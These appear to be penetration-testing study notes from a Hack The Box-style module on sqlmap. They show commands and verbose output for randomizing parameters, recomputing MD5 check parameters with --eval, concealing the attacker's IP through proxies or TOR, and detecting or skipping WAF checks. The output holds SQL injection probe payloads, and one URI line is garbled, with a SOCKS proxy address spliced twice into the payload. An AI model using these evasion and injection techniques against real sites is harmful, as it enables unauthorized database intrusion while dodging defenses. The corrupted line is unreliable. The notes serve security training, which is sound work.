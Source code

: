```shell-session
htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

#### `Calculated Parameter Bypass -->`

- web application expects a proper parameter value to be calculated based on some other parameter value(s).
- Most often, one parameter value has to contain the message digest (e.g. `h=MD5(id)`) of another one.
- To bypass this, the option `--eval` should be used, where a valid Python code is being evaluated just before the request is being sent to the target.

```shell-session
htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

#### `IP Address Concealing -->`

- Concealing refers to making the IP address hidden from viewing or making our IP blacklisted.
- If by any chance above scenarios occur then we can use a proxy server or anonymity network TOR to connect to the target.
- A proxy can be set with the option `--proxy` (e.g. `--proxy="socks4://177.39.187.70:33283"`), where we should add a working proxy.
- Alternatively if we have a list of proxies we can can mention it through a file using the option `--proxy-file`.
- Alternatively we can use TOR. which would be using `SOCKS4` service on port `9050` or `9150`.

#### `WAF (Web Application Firewall) Bypass -->`

- Whenever we run SQLMap, As part of the initial tests, SQLMap sends a predefined malicious looking payload using a non-existent parameter name (e.g. `?pfov=...`) to test for the ***existence of a WAF*** (Web Application Firewall)
- There will be a substantial change in response, for example one of the most popular WAF solution implemented is `406 - Not Acceptable` Response.
- In case of a positive detection, to identify the actual protection mechanism, SQLMap uses a third-party library [identYwaf](https://github.com/stamparm/identYwaf), containing the signatures of 80 different WAF solutions. 
- If we wanted to skip this heuristical test altogether (i.e., to produce less noise), we can use switch `--skip-waf`.

